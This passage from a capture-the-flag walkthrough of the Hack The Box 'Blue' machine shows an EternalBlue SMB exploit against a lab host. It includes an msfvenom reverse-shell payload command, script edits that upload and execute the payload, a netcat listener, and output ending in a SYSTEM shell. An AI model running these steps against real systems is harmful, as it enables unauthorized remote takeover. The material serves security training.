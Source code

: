 It looks like the script is able to get access to the machine but we need to create our own payload for reverse connection and send it to the target via this script. We can create the payload using `msfvenom` as shown below:

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=1337 -f exe > exp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

After the payload is created, we need to add the same to the script as well.

```
922	smb_send_file(smbConn, '/home/kali/Desktop/htb/blue/exp.exe', 'C', '/exp.exe')
923	service_exec(conn, r'cmd /c c:\exp.exe')
```

Once all this is done, we need to start a listener (`nc -nlvp 1337`) and run the script.

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ python2.7 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8003f795e0
SESSION: 0xfffff8a001b1f060
FLINK: 0xfffff8a001549088
InParam: 0xfffff8a00154315c
MID: 0x4c01
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.10.10.40.....
Creating service hNkF.....
Starting service hNkF.....
The NETBIOS connection with the remote host timed out.
Removing service hNkF.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
```

Before the script finishes, we get our reverse shell

```
┌──(kali㉿kali)-[~/Desktop/htb/blue]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
